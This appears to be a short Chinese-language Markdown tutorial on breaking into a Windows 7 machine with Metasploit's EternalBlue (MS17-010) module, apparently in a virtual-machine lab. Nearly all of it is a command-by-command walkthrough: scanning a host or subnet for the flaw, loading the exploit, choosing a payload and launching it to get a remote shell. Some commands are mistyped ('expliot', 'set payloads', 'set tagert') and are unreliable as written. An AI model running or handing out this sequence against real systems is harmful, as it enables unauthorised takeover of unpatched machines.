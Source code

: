 

### 入侵win7电脑案例



虚拟机开启kali

1. 进入metasploit

   ```sh
   msfconsole
   ```

2. 查询是否安装永恒之蓝漏洞模块

   ```sh
   search ms17_010
   ```

3. 指定扫描模块

   ```sh
   use auxiliary/scanner/smb/smb_ms17_010
   #查看选项
   show options	
   ```

4. 指定扫描ip，（或网段）

   ```sh
   set RHOSTS 192.168.137.131 
   #也可以扫网段
   #set RHOSTS 192.168.137.0/24
   ```

5. 执行渗透

   ```sh
   expliot
   ```

6. 如扫到该漏洞主机

   ```sh
   #先执行上一步
   back
   #使用攻击模块
   use exploit/windows/smb/ms17_010_eternalblue	#使用tab键，查找所需模块
   #查看
   show options
   
   #查看攻击载荷 (攻击成功后连接方式，如netcat(瑞士军刀)、metepreter，windows)
   show payloads
   #指定攻击载荷
   set payloads xxx
   
   #指定攻击目标
   set RHOSTS 192.168.137.131
   #攻击
   exploit
   
   #其他：
   #查看攻击目标
   show targets
   #指定目标
   set tagert 序号
   ```

7. 若攻击成功，返回对方shell